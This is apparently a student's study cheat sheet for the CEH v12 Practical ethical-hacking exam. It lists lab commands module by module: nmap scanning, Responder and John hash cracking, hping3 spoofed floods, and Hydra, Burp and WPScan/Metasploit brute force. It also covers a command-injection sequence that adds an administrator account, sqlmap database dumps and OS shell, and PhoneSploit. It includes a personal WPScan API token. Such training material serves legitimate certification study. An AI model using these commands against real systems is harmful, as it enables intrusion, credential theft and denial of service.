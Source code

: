 CEH-v12-Practical
Module 03: Scanning Networks

Lab1-Task1: Host discovery

nmap -sn -PR [IP]
-sn: Disable port scan
-PR: ARP ping scan
nmap -sn -PU [IP]
-PU: UDP ping scan
nmap -sn -PE [IP or IP Range]
-PE: ICMP ECHO ping scan
nmap -sn -PP [IP]
-PP: ICMP timestamp ping scan
nmap -sn -PM [IP]
-PM: ICMP address mask ping scan
nmap -sn -PS [IP]
-PS: TCP SYN Ping scan
nmap -sn -PA [IP]
-PA: TCP ACK Ping scan
nmap -sn -PO [IP]
-PO: IP Protocol Ping scan
Lab2-Task3: Port and Service Discovery

nmap -sT -v [IP]
-sT: TCP connect/full open scan
-v: Verbose output
nmap -sS -v [IP]
-sS: Stealth scan/TCP hall-open scan
nmap -sX -v [IP]
-sX: Xmax scan
nmap -sM -v [IP]
-sM: TCP Maimon scan
nmap -sA -v [IP]
-sA: ACK flag probe scan
nmap -sU -v [IP]
-sU: UDP scan
nmap -sI -v [IP]
-sI: IDLE/IPID Header scan
nmap -sY -v [IP]
-sY: SCTP INIT Scan
nmap -sZ -v [IP]
-sZ: SCTP COOKIE ECHO Scan
nmap -sV -v [IP]
-sV: Detect service versions
nmap -A -v [IP]
-A: Aggressive scan
Lab3-Task2: OS Discovery

nmap -A -v [IP]
-A: Aggressive scan
nmap -O -v [IP]
-O: OS discovery
nmap –script smb-os-discovery.nse [IP]
-–script: Specify the customized script
smb-os-discovery.nse: Determine the OS, computer name, domain, workgroup, and current time over the SMB protocol (Port 445 or 139)
Module 04: Enumeration

Lab2-Task1: Enumerate SNMP using snmp-check

nmap -sU -p 161 [IP]
snmp-check [IP]
Addition

nbtstat -a [IP] (Windows)
nbtstat -c
Module 06: System Hacking

Lab1-Task1: Perform Active Online Attack to Crack the System's Password using Responder

Linux:
cd
cd Responder
chmox +x ./Responder.py
sudo ./Responder.py -I eth0
passwd: ****
Windows
run
\CEH-Tools
Linux:
Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt
sudo snap install john-the-ripper
passwd: ****
sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt
Lab3-Task6: Covert Channels using Covert_TCP

Attacker:
cd Desktop
mkdir Send
cd Send
echo "Secret"->message.txt
Place->Network
Ctrl+L
smb://[IP]
Account & Password
copy and paste covert_tcp.c
cc -o covert_tcp covert_tcp.c
Target:
tcpdump -nvvx port 8888 -I lo
cd Desktop
mkdir Receive
cd Receive
File->Ctrl+L
smb://[IP]
copy and paste covert_tcp.c
cc -o covert_tcp covert_tcp.c
./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt
Tcpdump captures no packets
Attacker
./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/send/message.txt
Wireshark (message string being send in individual packet)
Module 08: Sniffing

Lab2-Task1: Password Sniffing using Wireshark

Attacker
Wireshark
Target
www.moviescope.com
Login
Attacker
Stop capture
File-&gt;Save as
Filter: http.request.method==POST
RDP log in Target
service
start Remote Packet Capture Protocol v.0 (experimental)
Log off Target
Wireshark-&gt;Capture options-&gt;Manage Interface-&gt;Remote Interfaces
Add a remote host and its interface
Fill info
Target
Log in
Browse website and log in
Attacker
Get packets
Module 10: Denial-of-Service

Lab1-Task2: Perform a DoS Attack on a Target Host using hping3

Target:
Wireshark-&gt;Ethernet
Attacker
hping3 -S [Target IP] -a [Spoofable IP] -p 22 -flood
-S: Set the SYN flag
-a: Spoof the IP address
-p: Specify the destination port
--flood: Send a huge number of packets
Target
Check wireshark
Attacker (Perform PoD)
hping3 -d 65538 -S -p 21 –flood [Target IP]
-d: Specify data size
-S: Set the SYN flag
Attacker (Perform UDP application layer flood attack)
nmap -p 139 10.10.10.19 (check service)
hping3 -2 -p 139 –flood [IP]
-2: Specify UDP mode
Other UDP-based applications and their ports
CharGen UDP Port 19
SNMPv2 UDP Port 161
QOTD UDP Port 17
RPC UDP Port 135
SSDP UDP Port 1900
CLDAP UDP Port 389
TFTP UDP Port 69
NetBIOS UDP Port 137,138,139
NTP UDP Port 123
Quake Network Protocol UDP Port 26000
VoIP UDP Port 5060
Module 13: Hacking Web Servers

Lab2-Task1: Crack FTP Credentials using a Dictionary Attack

nmap -p 21 [IP]
hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10
Module 14: Hacking Web Applications

Lab2-Task1: Perform a Brute-force Attack using Burp Suite

Set proxy for browser: 127.0.0.1:8080
Burpsuite
Type random credentials
capture the request, right click-&gt;send to Intrucder
Intruder-&gt;Positions
Clear $
Attack type: Cluster bomb
select account and password value, Add $
Payloads: Load wordlist file for set 1 and set 2
start attack
filter status==302
open the raw, get the credentials
recover proxy settings
Lab2-Task3: Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications

Log in a website, change the parameter value (id )in the URL
Conduct a XSS attack: Submit script codes via text area
Lab2-Task5: Enumerate and Hack a Web Application using WPScan and Metasploit

wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --url http://10.10.10.16:8080/CEH --plugins-detection aggressive --enumerate u
--enumerate u: Specify the enumeration of users
API Token: Register at https://wpscan.com/register
Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads
service postgresql start
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE password.txt
set RHOST 10.10.10.16
set RPORT 8080
set TARGETURI http://10.10.10.16:8080/CEH
set USERNAME admin
run
Find the credential
Lab2-Task6: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)

If found command injection vulnerability in an input textfield
| hostname
| whoami
| tasklist| Taskkill /PID /F
/PID: Process ID value od the process
/F: Forcefully terminate the process
| dir C:\
| net user
| net user user001 /Add
| net user user001
| net localgroup Administrators user001 /Add
Use created account user001 to log in remotely
Module 15: SQL Injection

Lab1-Task2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap

Login a website
Inspect element
Dev tools-&gt;Console: document.cookie
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" –dbs
-u: Specify the target URL
--cookie: Specify the HTTP cookie header value
--dbs: Enumerate DBMS databases
Get a list of databases
Select a database to extract its tables
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope –tables
-D: Specify the DBMS database to enumerate
--tables: Enumerate DBMS database tables
Get a list of tables
Select a column
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope –T User_Login --dump
Get table data of this column
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" --os-shell
Get the OS Shell
TASKLIST
Module 17: Hacking Mobile Platforms

Lab 1-Task 4: Exploit the Android Platform through ADB using PhoneSploit

cd Phonesploit
python3 -m pip install colorama
python3 phonesploit.py
3
10.10.10.14
4
pwd
cd sdcard
cd Download
Module 20: Cryptography

Lab1-Task2: Calculate MD5 Hashes using MD5 Calculator

Nothing special
Lab4-Task1: Perform Disk Encryption using VeraCrypt

Click VeraCrypt
Create Volumn
Create an encrypted file container
Specify a path and file name
Set password
Select NAT
Move the mouse randomly for some seconds, and click Format
Exit
Select a drive, select file, open, mount
Input password
Dismount
Exit
Module Appendix: Covered Tools

Nmap
Multiple Labs
Hydra
Module 13: Lab2-Task1
Sqlmap
Module 15: Lab1-Task2
WPScan
Module 14: Lab2-Task5
wpscan –-url http://10.10.10.10 -t 50 -U admin -P rockyou.txt
Nikto
https://zhuanlan.zhihu.com/p/124246499
John
Module 06: Lab1-Task1
Hashcat
Crack MD5 passwords with a wordlist:
hashcat hash.txt -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
Crack MD5 passwords in a certain format:
hashcat -m 0 -a 3 ./hash.txt 'SKY-HQNT-?d?d?d?d'
https://xz.aliyun.com/t/4008
https://tools.kali.org/password-attacks/hashcat
Metasploit
Module 14: Lab2-Task5
Responder LLMNR
Module 06: Lab1-Task1
Wireshark or Tcpdump
Multiple Labs
Steghide
Hide
steghide embed -cf [img file] -ef [file to be hide]
steghide embed -cf 1.jpg -ef 1.txt
Enter password or skip
Extract
steghide info 1.jpg
steghide extract -sf 1.jpg
Enter password if it does exist
OpenStego
https://www.openstego.com/
QuickStego
Module 06: Lab0-Task1
Dirb (Web content scanner)
https://medium.com/tech-zoom/dirb-a-web-content-scanner-bc9cba624c86
https://blog.csdn.net/weixin_44912169/article/details/105655195
Searchsploit (Exploit-DB)
https://www.hackingarticles.in/comprehensive-guide-on-searchsploit/
Crunch (wordlist generator)
https://www.cnblogs.com/wpjamer/p/9913380.html
Cewl (URL spider)
https://www.freebuf.com/articles/network/190128.html
Veracrypt
Module 20: Lab4-Task1
Hashcalc
Module 20: Lab1-Task1 (Nothing special)
Rainbow Crack
Module 06: Lab0-Task0
Windows SMB
smbclient -L [IP]
smbclient \ip\sharename
nmap -p 445 -sV –script smb-enum-services [IP]
**Run Nmap at the beginning **
nmap -sn -PR 192.168.1.1/24 -oN ip.txt
nmap -A -T4 -vv -iL ip.txt -oN nmap.txt
nmap -sU -sV -A -T4 -v -oN udp.txt
Snow
./snow -C -p "magic" output.txt
snow -C -m "Secret Text Goes Here!" -p "magic" readme.txt readme2.txt • -m → Set your message • -p → Set your password
Rainbowcrack
Use Winrtgen to generate a rainbow table
Launch RainbowCrack
File->Load NTLM Hashes from PWDUMP File
Rainbow Table->Search Rainbow Table
Use the generated rainbow table
RainbowCrack automatically starts to crack the hashes QuickStego
Launch QuickStego
Open Image, and select target .jpg file
Open Text, and select a txt file
Hide text, save image file
Re-launch, Open Image
Select stego file
Hidden text shows up
Useful Links

https://book.thegurusec.com/certifications/certified-ethical-hacker-practical/steganography
https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master
